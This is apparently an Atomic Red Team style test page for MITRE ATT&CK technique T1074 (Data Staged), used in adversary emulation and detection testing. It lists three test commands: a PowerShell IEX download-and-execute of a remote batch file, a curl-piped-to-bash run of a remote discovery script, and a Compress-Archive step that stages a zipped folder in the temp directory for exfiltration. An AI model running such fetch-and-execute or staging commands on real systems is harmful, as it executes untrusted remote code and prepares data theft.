 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1074/src/Discovery.bat') > pi.log
```






<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS



#### Attack Commands: Run with `bash`! 
```
curl -s https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1074/src/Discovery.sh | bash -s > /tmp/discovery.log
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration.

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_zip -DestinationPath $env:TEMP\Folder_to_zip.zip
```

#### Cleanup Commands:
```
Remove-Item -Path $env:TEMP\Folder_to_zip.zip
```





<br/>
